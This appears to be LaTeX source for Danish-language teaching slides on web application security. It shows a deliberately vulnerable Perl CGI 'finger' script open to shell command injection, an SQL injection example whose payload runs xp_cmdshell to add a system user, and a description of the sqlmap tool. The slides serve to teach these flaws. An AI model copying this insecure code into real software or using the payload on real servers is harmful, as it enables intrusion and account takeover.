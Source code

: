 \documentclass[20pt,landscape,a4paper,footrule]{foils}
\begin{document}

{\small
\begin{verbatim}
print "Content-type: text/html\n\n<html>";
print "<body bgcolor=#666666 leftmargin=20 topmargin=20";
print "marginwidth=20 marginheight=20>";
print <<XX;
<h1>Bad finger command!</h1>
<HR COLOR=#000>
<form method="post" action="bad_finger.cgi">
Enter userid: <input type="text" size="40" name="command">
</form>
<HR COLOR=#000>
XX
if(&ReadForm(*input)){
    print "<pre>\n";
    print "will execute:\n/usr/bin/finger $input{'command'}\n";
    print "<HR COLOR=#000>\n";
    print `/usr/bin/finger $input{'command'}`;
    print "<pre>\n";
}
\end{verbatim}}



\begin{list1}
\item SQL Injection FAQ
:
\begin{alltt}
\small
Set myRecordset = myConnection.execute
("SELECT * FROM myTable
WHERE someText ='" & request.form("inputdata") & "'")
med input: ' exec master..xp_cmdshell 'net user test testpass /ADD' --
modtager og udfører serveren:
SELECT * FROM myTable
WHERE someText ='' exec master..xp_cmdshell
'net user test testpass /ADD'--'
\end{alltt}
\item -- er kommentar i SQL
\end{list1}



\begin{list1}
\item Ja, meget almindeligt!
\item Prøv at søge med google
\end{list1}

\begin{list1}
\item \emph{The Database Hacker's Handbook : Defending Database Servers
} David  Litchfield, Chris  Anley, John  Heasman, Bill  Grindlay,
Wiley 2005 ISBN: 0764578014
\end{list1}



\begin{quote}\small
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

Features
\end{quote}
\end{document}
